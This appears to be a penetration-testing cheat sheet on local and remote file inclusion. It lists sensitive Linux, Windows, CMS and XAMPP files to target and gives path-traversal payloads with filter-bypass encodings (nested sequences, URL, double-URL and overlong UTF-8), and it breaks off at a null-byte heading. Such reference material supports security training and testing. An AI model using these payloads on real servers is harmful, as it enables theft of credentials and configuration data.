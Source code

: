 # Local and remote file inclusion
Local file inclusion (LFI) vulnerabilities allow an attacker to read local files on the web server using malicious web requesrts. These files can include web configuration files, log files, password files and other sensitive system data. LFI can also be used for remote code execution (RCE). In most cases, this vulnerability is due to poor input sanitization.

Remote file inclusions is similar, but the attacker is taking advantage of the web server's ability to call local files, and using it to upload files from remote servers. These remote files can be malicious code that executes in the context of the web server user (e.g. www-data).

## Interesting files
If an LFI vulnerability exists, look for these files:

### Linux
Linux system files:
```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
```
**Log files**
Potentially interesting logfiles:
```
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
```
**CMS configuration files**
Content management system configuration files:
```
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
```
### Windows
Files that may exist on Windows systems:
```
C:/windows/System32/drivers/etc/hosts
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
```
**XAMPP**
Interesting XAMPP files on Windows:
```
C:/xampp/apache/conf/httpd.conf
C:/xampp/security/webdav.htpasswd
C:/xampp/apache/logs/access.log
C:/xampp/apache/logs/error.log
```
## Techniques

### Basic
Assuming you are on a Linux system, test if you can display `/etc/passwd` by moving back 5 directory levels:
```
http://host/?page=../../../../../etc/passwd
```
Even if this doesn't work, it doesn't mean that the website is immune to path traversal. When filtering input, developers will often prevent the use of forward slashes, but not backslashes or encoded characters.

### Nesting traversal sequences
If the application is attempting to sanitize user input by removing traversal sequences, but does not apply this filter recursively, then it may be possible to bypass the filter by placing one sequence within another:

```
....//

....\/

..../\

....\\
```

### URL-encoded
Encoding all the slashes and dots in your path traversal could bypass input filters:
 
```
dot             %2e
forward slash   %2f
backslash       %5c
```
Example: 
```
 %2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc%5cpasswd
```

### Double URL-encoded
Another encoding method:
```
dot             %252e
forward slash   %252f
backslash       %255c
```
Example:
```
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```
### Overlong UTF-8 encoding
You can also use the illegal Unicode payload type in Burp Intruder for this technique:

```
dot             %c0%2e  %e0%40%ae  %c0ae etc.
forward slash   %c0%af  %e0%80%af  %c0%2f etc.
backslash       %c0%5c  %c0%80%5c  etc.
```

### Null-byte injection
